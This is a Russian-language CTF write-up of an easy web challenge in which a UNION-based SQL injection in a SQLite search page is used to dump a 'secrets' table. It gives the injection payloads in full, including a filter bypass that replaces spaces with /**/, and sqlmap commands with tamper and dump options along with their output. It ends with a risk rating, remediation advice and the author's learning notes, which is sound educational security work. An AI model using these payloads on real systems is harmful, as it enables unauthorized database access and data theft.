






# PolyCTF SQLi

> **Категория:** Web
> **Сложность:** Easy
> **Уязвимость:** SQL Injection (UNION-based, SQLite)
> **Цель:** `http://polyctf.ru:5002`

---

## Входные данные

Дана страница поиска сотрудников с одним полем ввода (параметр `name`). Введённое значение подставляется в SQL-запрос на бэкенде и используется для поиска по базе.



---

## Разведка

### 1. Проверка на инъекцию

Ввод чувствительных символов `qwerty<>'"` вызвал явную ошибку базы данных на странице:

```
Ошибка базы данных
unrecognized token: "'%'"
```

Это признак того, что ввод попадает в SQL-запрос без экранирования.[^1]

<!-- скрин: ошибка БД при вводе спецсимволов -->

### 2. Boolean-based проверка

Классический payload:

```sql
' OR 1=1 -- -
```

Запрос отработал и вернул расширенный список сотрудников — подтверждение, что инъекция возможна. Флага в выводе нет, значит нужно копать дальше и доставать произвольные данные через `UNION SELECT`.



### 3. Определение СУБД

Попытка обратиться к служебной таблице MySQL/PostgreSQL:

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables -- -
```

вернула ошибку:

```
no such table: information_schema.tables
```

Такая ошибка типична именно для **SQLite** — в отличие от MySQL/PostgreSQL/MSSQL, в SQLite нет `information_schema`. Вместо неё своя служебная таблица — `sqlite_master`.

### 4. Подбор количества столбцов

Запрос с экранированием пробелов через `/**/` (прямой пробел база отклоняла, вероятно из-за фильтрации):

```sql
'/**/UNION/**/SELECT/**/NULL,NULL/**/FROM/**/sqlite_master/**/WHERE/**/type='table'/**/--/**/-
```

Подбором (`NULL`, `NULL,NULL`, `NULL,NULL,NULL`...) было установлено, что уязвимый запрос ожидает **3 столбца** — финальный рабочий вариант:

```sql
'/**/UNION/**/SELECT/**/NULL,NULL,NULL/**/FROM/**/sqlite_master/**/WHERE/**/type='table'/**/--/**/-
```



### 5. Получение структуры таблиц

Заменив первый `NULL` на `sql` (столбец `sqlite_master`, хранящий исходный `CREATE TABLE`):

```sql
'/**/UNION/**/SELECT/**/sql,NULL,NULL/**/FROM/**/sqlite_master/**/WHERE/**/type='table'/**/--/**/-
```

В выводе обнаружена таблица **`secrets`** — потенциально содержащая флаг.



---

## Эксплуатация

Зная структуру таблицы `secrets` (столбцы `id`, `secret_name`, `secret_value`), выполнен прямой дамп:

```sql
'/**/UNION/**/SELECT/**/id,secret_name,secret_value/**/FROM/**/secrets/**/--/**/-
```

Получены все записи таблицы, включая флаг.



### Автоматизация через sqlmap

Та же уязвимость воспроизведена через `sqlmap` для подтверждения и ускорения дампа.

Первый запуск без доп. флагов результата не дал — sqlmap не смог обойти фильтрацию пробелов и предложил `--tamper=space2comment`. Также был добавлен `--level=5` для более агрессивного перебора техник.

```bash
sqlmap -u "http://polyctf.ru:5002/search?name=%D0%95%D0%B3%D0%BE%D1%80" \
  --tamper=space2comment --level=5
```

Sqlmap подтвердил СУБД — SQLite, и определил параметр `name` как уязвимый.



Дамп таблицы:

```bash
sqlmap -u "http://polyctf.ru:5002/search?name=%D0%95%D0%B3%D0%BE%D1%80" \
  --tamper=space2comment --level=5 -D main --dump -T secrets
```

```
+----+---------------+----------------------------------------+
| id | secret_name   | secret_value                            |
+----+---------------+----------------------------------------+
| 1  | api           | abcde1234xyz                            |
| 2  | password      | ilovechatgptandcloude                   |
| 3  | flag          | PolyCTF{fl4g}                           |
| 4  | db_backup_url | ftp://backup.PolyCTF.internal           |
+----+---------------+----------------------------------------+
```

---

## Риск уязвимости

SQL Injection в параметре `name` позволяет атакующему:

- **Читать произвольные данные из базы**, включая таблицы, не предназначенные для публичного доступа (как `secrets` в данном случае — пароли, API-ключи, адреса бэкапов).
- **Перечислять структуру БД** (список таблиц и столбцов) без каких-либо учётных данных, что упрощает дальнейшую разведку и расширение атаки.
- При наличии прав на запись — потенциально **модифицировать или удалять данные** (если бэкенд допускает stacked queries).
- Утечка `db_backup_url` и `password` из таблицы `secrets` в данном случае создаёт риск **цепной компрометации** — эти данные могут быть использованы для доступа к смежным системам (FTP-бэкап, другие сервисы с тем же паролем).

Поскольку инъекция эксплуатируется без аутентификации, через обычный поисковый запрос, severity можно оценивать как **High**.

---

## Меры по исправлению

1. **Использовать параметризованные запросы.** Ввод пользователя не должен вставляться прямо в SQL-строку — его нужно передавать отдельно, как параметр, а не склеивать текстом.
2. **Проверять и фильтровать ввод** на бэкенде — не пускать в запрос символы типа `'`, `"`, `--`, `/*`.
3. **Ограничить доступ пользователя БД** — аккаунт, от которого идут запросы на поиск, не должен вообще видеть такие таблицы, как `secrets`.
4. **Не хранить пароли и ключи прямо в таблицах БД** открытым текстом — для этого есть отдельные хранилища секретов.
5. **Добавить WAF или мониторинг подозрительных запросов** — не исправляет саму проблему, но снижает шанс, что её успеют проэксплуатировать до патча.

---

## Чему я научился

- Впервые сам решил задачу по sqli.
- Понял разницу между boolean-based и union based, научился базовым основам написания union based иньекций.
- Разобрался, зачем в UNION SELECT нужны NULL и почему именно NULL, а не любое значение.
- Научился подбирать количество столбцов перебором через NULL, NULL,NULL...
- Узнал, что в SQLite нет information_schema, а есть свой аналог — sqlite_master, и через него можно вытащить структуру таблиц.
- Понял, как обходить фильтрацию пробелов — вручную через /**/ и через tamper-скрипты sqlmap.
- Разобрался с флагами sqlmap: --level, --tamper, --dump -T.

---

[^1]: Формулировка `unrecognized token` специфична для парсера SQLite (в MySQL/PostgreSQL сообщения об ошибках синтаксиса выглядят иначе), так что уже на этом шаге можно было предположить СУБД, не дожидаясь шага 3.
